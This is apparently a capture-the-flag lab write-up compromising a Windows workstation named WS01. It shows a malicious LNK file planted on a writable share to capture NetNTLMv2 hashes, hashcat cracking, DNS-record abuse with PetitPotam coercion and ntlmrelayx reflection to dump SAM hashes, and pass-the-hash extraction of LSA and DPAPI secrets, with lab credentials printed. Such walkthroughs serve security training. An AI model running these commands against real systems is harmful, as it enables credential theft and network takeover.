

As usual the initial step involves checking all the running services over the first thousand UDP services:

```bash
└─$ nmap -sU -F 10.13.38.50
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 11:03 +0100
Nmap scan report for 10.13.38.50
Host is up (0.040s latency).
All 100 scanned ports on 10.13.38.50 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 5.79 seconds

```

Ok, so far nothing, but what about the TCP services now?

```bash
PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=WS01.intercept.vl
| Issuer: commonName=WS01.intercept.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-21T11:54:49
| Not valid after:  2026-04-22T11:54:49
| MD5:     4be6 f7ef d282 2730 aa17 6eab f806 ee7a
| SHA-1:   f8fd abfc 7c13 e9a2 5b9e b0cb 66b8 56e8 e533 9103
| SHA-256: 2c7d 6c4d 5603 f02f 39d8 268a 2348 fa6b b05f 9bbe 11bc 1f03 1b65 cf2c 217a 0dba
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQGaqCrBx5ZohKENmsJSK0OjANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFXUzAxLmludGVyY2VwdC52bDAeFw0yNTEwMjExMTU0NDlaFw0y
| NjA0MjIxMTU0NDlaMBwxGjAYBgNVBAMTEVdTMDEuaW50ZXJjZXB0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3Nh2HL0kqWOgfgTYp23VUeouh3RA
| iXmTZ3BMKmZN9FOx9N1vApSOIoAPjW2NnvLZ5wIG7AHCg9SHo26KCXKh4KNxmwOL
| Cu+xYSuODU+tVGRG4BeHPgc+q0h3EGsnvXNTjWYglqnVi52tbGw2VpdyxB1ORwvT
| q3IJjz/a2WK/iRKDaoYM1jNrDnAUctOuuu/DoyNM0H8XsYWW9eAYrxzS6yvDj2EC
| k6yB5L8vdriL5s+GFOwDf5f2TDO8kr0tgC/qNU7LFv+TlbbrM9p6lCIIu/YBCqAA
| ByPYszblZ8q4oEUhKSNhdF2DTqrunDSD2PB4EBtTKcsMW9VGK4iRoJMNHQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAM7b7aQex3tl+gYu8WZOyJdY+j+uJuXTSyLOtaljZrvCQxZfSWx6
| nItJn42VrKbMAGTkpYsX6kWzULKGoj+FMU/tLsyjHOZWcx/J5zTLPL9MLSvnUR+2
| iThb0RJFJ6LYZ6dPo4q5RQs+jMrlzSicltHAObp8oRGrYp1vJNzEE3FmKoAdDJqY
| OTXh60T6lMN1Rm0qHoMQ3h9DGFMWHUerGAUvtUVg2F54VujDeaIBWhecfcV1cvav
| wUTUDXHLZEoFjG6RdPzKGcO1QWSSs2LRhzYrLkAIlUDeFmBdc31NK68FqR2ssncI
| yBmFn9D0deCPZt92SWz6+NfRiDHS6lFX/ps=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-15T10:11:54+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: INTERCEPT
|   NetBIOS_Domain_Name: INTERCEPT
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: intercept.vl
|   DNS_Computer_Name: WS01.intercept.vl
|   DNS_Tree_Name: intercept.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-15T10:11:14+00:00
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (90%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/15%OT=135%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69B685EA%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=U)
SEQ(SP=103%GCD=1%ISR=104%TI=I%II=I%SS=S%TS=U)
OPS(O1=M552NW8NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-15T10:11:15
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44646/tcp): CLEAN (Timeout)
|   Check 2 (port 18079/tcp): CLEAN (Timeout)
|   Check 3 (port 14644/udp): CLEAN (Timeout)
|   Check 4 (port 25049/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   38.01 ms 10.10.14.1
2   38.36 ms 10.13.38.50

```

# SMB

Now I will start by scanning the Samba share and I see immediately that the signing is not active but I see also that there is a open share on the machine?

```bash
─$ netexec smb WS01.intercept.vl -u guest -p '' --shares
SMB         10.13.38.50     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:None)
SMB         10.13.38.50     445    WS01             [+] intercept.vl\guest: 
SMB         10.13.38.50     445    WS01             [*] Enumerated shares
SMB         10.13.38.50     445    WS01             Share           Permissions     Remark
SMB         10.13.38.50     445    WS01             -----           -----------     ------
SMB         10.13.38.50     445    WS01             ADMIN$                          Remote Admin
SMB         10.13.38.50     445    WS01             C$                              Default share
SMB         10.13.38.50     445    WS01             dev             READ,WRITE      shared developer workspace
SMB         10.13.38.50     445    WS01             IPC$            READ            Remote IPC
SMB         10.13.38.50     445    WS01             Users           READ            
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]
└─$ netexec smb WS01.intercept.vl -u guest -p '' --users 
SMB         10.13.38.50     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:None)
SMB         10.13.38.50     445    WS01             [+] intercept.vl\guest: 
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]
└─$ netexec smb WS01.intercept.vl -u guest -p '' --rid-brute
SMB         10.13.38.50     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:None)
SMB         10.13.38.50     445    WS01             [+] intercept.vl\guest: 
SMB         10.13.38.50     445    WS01             500: WS01\Administrator (SidTypeUser)
SMB         10.13.38.50     445    WS01             501: WS01\Guest (SidTypeUser)
SMB         10.13.38.50     445    WS01             503: WS01\DefaultAccount (SidTypeUser)
SMB         10.13.38.50     445    WS01             504: WS01\WDAGUtilityAccount (SidTypeUser)
SMB         10.13.38.50     445    WS01             513: WS01\None (SidTypeGroup)

```

And checking that *DEV* share and I can connect the dots where I suspect I need to use slinky(or something similar) to obtain a NTLM relay somehow?

```bash
└─$ impacket-smbclient guest:''@WS01.intercept.vl                  
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use DEV
# ls 
drw-rw-rw-          0  Sun Mar 15 11:15:01 2026 .
drw-rw-rw-          0  Sun Mar 15 11:15:01 2026 ..
drw-rw-rw-          0  Sun Mar 15 11:07:28 2026 projects
-rw-rw-rw-        123  Thu Jun 29 13:46:20 2023 readme.txt
drw-rw-rw-          0  Sun Mar 15 11:07:28 2026 tools
# cat readme.txt
Please check this share regularly for updates to the application (this is a temporary solution until we switch to gitlab). 
# 

```

Now the first test is to use *slinky* a custom module for NetExec that creates a malicious link file in the root directory:

```bash
└─$ netexec smb WS01.intercept.vl -u guest -p '' -M slinky -o SERVER=10.10.14.105 NAME=relay 
SMB         10.13.38.50     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:None)
SMB         10.13.38.50     445    WS01             [+] intercept.vl\guest: 
SMB         10.13.38.50     445    WS01             [*] Enumerated shares
SMB         10.13.38.50     445    WS01             Share           Permissions     Remark
SMB         10.13.38.50     445    WS01             -----           -----------     ------
SMB         10.13.38.50     445    WS01             ADMIN$                          Remote Admin
SMB         10.13.38.50     445    WS01             C$                              Default share
SMB         10.13.38.50     445    WS01             dev             READ,WRITE      shared developer workspace
SMB         10.13.38.50     445    WS01             IPC$            READ            Remote IPC
SMB         10.13.38.50     445    WS01             Users           READ            
SLINKY      10.13.38.50     445    WS01             [+] Found writable share: dev
SLINKY      10.13.38.50     445    WS01             [+] Created LNK file on the dev share

└─$ impacket-smbclient guest:''@WS01.intercept.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 15 11:24:21 2026 .
drw-rw-rw-          0  Sun Mar 15 11:24:21 2026 ..
drw-rw-rw-          0  Sun Mar 15 11:22:28 2026 projects
-rw-rw-rw-        123  Thu Jun 29 13:46:20 2023 readme.txt
-rw-rw-rw-        947  Sun Mar 15 11:24:21 2026 relay.lnk
drw-rw-rw-          0  Sun Mar 15 11:22:28 2026 tools
# 
```

And after a while it is possible to obtain a password hash in Responder for the user Kathlyn:



And like this it is possible to crack the credentials and obtain the access as the first AD account:

```bash
KATHRYN.SPENCER::INTERCEPT:99a711ee07ee3a94:6d1b7fa30a733f58972ab44940c8ff57:0101000000000000007dde016fb4dc01f8e472999b269c210000000002000800340050004d00410001001e00570049004e002d005400480050004c00430053003500390049003600490004003400570049004e002d005400480050004c0043005300350039004900360049002e00340050004d0041002e004c004f00430041004c0003001400340050004d0041002e004c004f00430041004c0005001400340050004d0041002e004c004f00430041004c0007000800007dde016fb4dc010600040002000000080030003000000000000000000000000020000052c2c0da0f8b3148a85b9dd767f762405951029a1a87b22b8f5a9ef6520adbd50a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100300035000000000000000000:Chocolate1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: KATHRYN.SPENCER::INTERCEPT:99a711ee07ee3a94:6d1b7fa...000000
Time.Started.....: Sun Mar 15 11:32:28 2026 (0 secs)
Time.Estimated...: Sun Mar 15 11:32:28 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 72454.3 kH/s (2.64ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1572864/14344385 (10.97%)
Rejected.........: 0/1572864 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> lindaromain001
Hardware.Mon.#01.: Temp: 57c Util: 16% Core:1890MHz Mem:7000MHz Bus:8

Started: Sun Mar 15 11:32:26 2026
Stopped: Sun Mar 15 11:32:29 2026

```

Now, it is clear that the flag is saved under Administrator folder on the WS01 as the flag is not saved here.

```bash
└─$ impacket-smbclient 'Kathryn.Spencer':'Chocolate1'@WS01.intercept.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
dev
IPC$
Users
# use Users
# ks
*** Unknown syntax: ks
# ls
drw-rw-rw-          0  Thu Jun 29 17:07:28 2023 .
drw-rw-rw-          0  Thu Jun 29 17:07:28 2023 ..
drw-rw-rw-          0  Mon Jun 26 06:19:31 2023 Default
-rw-rw-rw-        174  Mon Jun 26 07:12:20 2023 desktop.ini
drw-rw-rw-          0  Thu Jun 29 17:12:27 2023 Kathryn.Spencer
drw-rw-rw-          0  Thu Jun 29 17:20:32 2023 Public
# cd Kathryn.Spencer
# ls
drw-rw-rw-          0  Thu Jun 29 17:12:27 2023 .
drw-rw-rw-          0  Thu Jun 29 17:12:27 2023 ..
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 3D Objects
drw-rw-rw-          0  Thu Jun 29 17:07:31 2023 AppData
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Contacts
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Desktop
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Documents
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Downloads
drw-rw-rw-          0  Thu Jun 29 17:08:22 2023 Favorites
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Links
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Music
-rw-rw-rw-    1048576  Thu Jun 29 17:07:30 2023 NTUSER.DAT
-rw-rw-rw-     335872  Thu Jun 29 17:07:31 2023 ntuser.dat.LOG1
-rw-rw-rw-     339968  Thu Jun 29 17:07:31 2023 ntuser.dat.LOG2
-rw-rw-rw-      65536  Thu Jun 29 17:25:11 2023 NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TM.blf
-rw-rw-rw-     524288  Thu Jun 29 17:07:31 2023 NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Thu Jun 29 17:07:31 2023 NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Wed Jul 17 18:02:18 2024 ntuser.ini
drw-rw-rw-          0  Thu Jun 29 17:12:27 2023 OneDrive
drw-rw-rw-          0  Thu Jun 29 17:12:22 2023 Pictures
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Saved Games
drw-rw-rw-          0  Thu Jun 29 17:08:51 2023 Searches
drw-rw-rw-          0  Thu Jun 29 17:07:54 2023 Videos
# 

```

I will move on to the DC01 and evetually come back later on when I obtain the Administrative account.

# Back on Track

Now I am aware this is not the "intended" way but it is possible to use a recent bug named *NTLM Reflection*  where it it possible to trick the WS01 into coercing back the same connection to itself in order to dump the local admin.

The first step involves adding a custom DNS record pointing back to our listening machine:

```bash
└─$ python3 dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p 'Chocolate1' 10.13.38.49 -a add -r ws011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.10.14.105
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

```

Next, the PetitPotam can be used to obtain a coerced callback to the *malicious*  DNS record:

```bash
└─$ python3 PetitPotam.py -u 'Kathryn.Spencer' -p 'Chocolate1' -d intercept.vl ws011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA WS01.intercept.vl 
/home/millycash/Downloads/Tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:WS01.intercept.vl[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

Which should result in a SAM dump from the WS01 itself:

```bash
─# impacket-ntlmrelayx -t WS01.intercept.vl -smb2support
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.13.38.50, attacking target smb://WS01.intercept.vl
[*] (SMB): Authenticating connection from /@10.13.38.50 against smb://WS01.intercept.vl SUCCEED [1]
[*] (SMB): Received connection from 10.13.38.50, attacking target smb://WS01.intercept.vl
[*] smb:///@ws01.intercept.vl [1] -> Service RemoteRegistry is in stopped state
[*] (SMB): Authenticating connection from /@10.13.38.50 against smb://WS01.intercept.vl SUCCEED [2]
[*] smb:///@ws01.intercept.vl [1] -> Service RemoteRegistry is disabled, enabling it
[*] smb:///@ws01.intercept.vl [1] -> Starting service RemoteRegistry
[*] smb:///@ws01.intercept.vl [2] -> Target system bootKey: 0x04718518c7f81484a5ba5cc7f16ca912
[*] smb:///@ws01.intercept.vl [2] -> Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] smb:///@ws01.intercept.vl [1] -> Target system bootKey: 0x04718518c7f81484a5ba5cc7f16ca912
[*] smb:///@ws01.intercept.vl [1] -> Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:831cbc509daa37aff98250b635e7f482:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:831cbc509daa37aff98250b635e7f482:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:48daaaaa9654c3754d42b40e292ba63f:::
[*] smb:///@ws01.intercept.vl [2] -> Done dumping SAM hashes for host: ws01.intercept.vl
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:48daaaaa9654c3754d42b40e292ba63f:::
[*] smb:///@ws01.intercept.vl [1] -> Done dumping SAM hashes for host: ws01.intercept.vl
[*] smb:///@ws01.intercept.vl [1] -> Stopping service RemoteRegistry
[*] smb:///@ws01.intercept.vl [1] -> Restoring the disabled state for service RemoteRegistry


```

With this account it is now possible to dump the secrets and obtain another fresh set of credentials:

```bash
└─$ netexec smb WS01.intercept.vl -u 'Administrator' -H 831cbc509daa37aff98250b635e7f482 --local-auth --lsa --dpapi
SMB         10.13.38.50     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:None)
SMB         10.13.38.50     445    WS01             [+] WS01\Administrator:831cbc509daa37aff98250b635e7f482 (Pwn3d!)
SMB         10.13.38.50     445    WS01             [*] Dumping LSA secrets
SMB         10.13.38.50     445    WS01             INTERCEPT.VL/Simon.Bowen:$DCC2$10240#Simon.Bowen#35e1bb1dbd5f474e21819bb03ae5d103: (2026-03-15 03:03:58)
SMB         10.13.38.50     445    WS01             INTERCEPT.VL/Kathryn.Spencer:$DCC2$10240#Kathryn.Spencer#4d8e1b44d30998c82793a9808b959d91: (2025-10-23 09:27:18)
SMB         10.13.38.50     445    WS01             INTERCEPT\WS01$:aes256-cts-hmac-sha1-96:f3ac7c343f039b1a0c62359887b23e80f39f77f65435655a3bca3023d5f40051
SMB         10.13.38.50     445    WS01             INTERCEPT\WS01$:aes128-cts-hmac-sha1-96:c16a3b3fa7c95bac757a3a115dfe7432
SMB         10.13.38.50     445    WS01             INTERCEPT\WS01$:des-cbc-md5:c2f4efba6d5d62e3
SMB         10.13.38.50     445    WS01             INTERCEPT\WS01$:plain_password_hex:c5330a875e74b4cd8e5d7e02d3c4756bc2429089d8700ad45f982a4dc251ad028e3b2f6573f9fddf04833f5cbff8c29d9250178a0aebb7aa624a13f13acf5188620a3cb3dbbc1cec1359cd51176201d3bd9bba9a1a5c55d1918e6eef190de38fc995e6e860c4dd645305990aa3d7e114f574e9d66f53184e0f78a3fd751cf14a80fc811397006c289a21da6b367497a57ca4a72f96c582f8b823df915b7acdbea93b46f7d520536d57776491c3561110d6a9d97af1f20fbef19275246a6b7964632015a3f997765022729d94f0127e862d3bf4b680a3e3a72260b2c079409da3f6c76d1281b8dc7360e2283e8af9a610
SMB         10.13.38.50     445    WS01             INTERCEPT\WS01$:aad3b435b51404eeaad3b435b51404ee:fd9c502cd1d3645cf96c2b78238b8341:::
SMB         10.13.38.50     445    WS01             intercept.vl\Kathryn.Spencer:Chocolate1
SMB         10.13.38.50     445    WS01             dpapi_machinekey:0xf6f65580470c139808ab7f0ffb709773d1531dc3
dpapi_userkey:0x24122e60857c28b7f2e6bdd138f22e3e4ddd58f3
SMB         10.13.38.50     445    WS01             Simon.Bowen@intercept.vl:b0OI_fHO859+Aw
SMB         10.13.38.50     445    WS01             [+] Dumped 10 LSA secrets to /home/millycash/.nxc/logs/lsa/WS01_10.13.38.50_2026-03-15_124558.secrets and /home/millycash/.nxc/logs/lsa/WS01_10.13.38.50_2026-03-15_124558.cached
SMB         10.13.38.50     445    WS01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.13.38.50     445    WS01             [+] Got 8 decrypted masterkeys. Looting secrets...
                                                                                                                                                         
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]

```

# Getting the first flag

Now it is possible by passing the hash to obtain the first flag:

```bash
*Evil-WinRM* PS C:\Users\Administrator> cat Desktop/flag.txt
INTERCEPT{99476b4e80fe987344f9875717cb32f7}
*Evil-WinRM* PS C:\Users\Administrator> 

```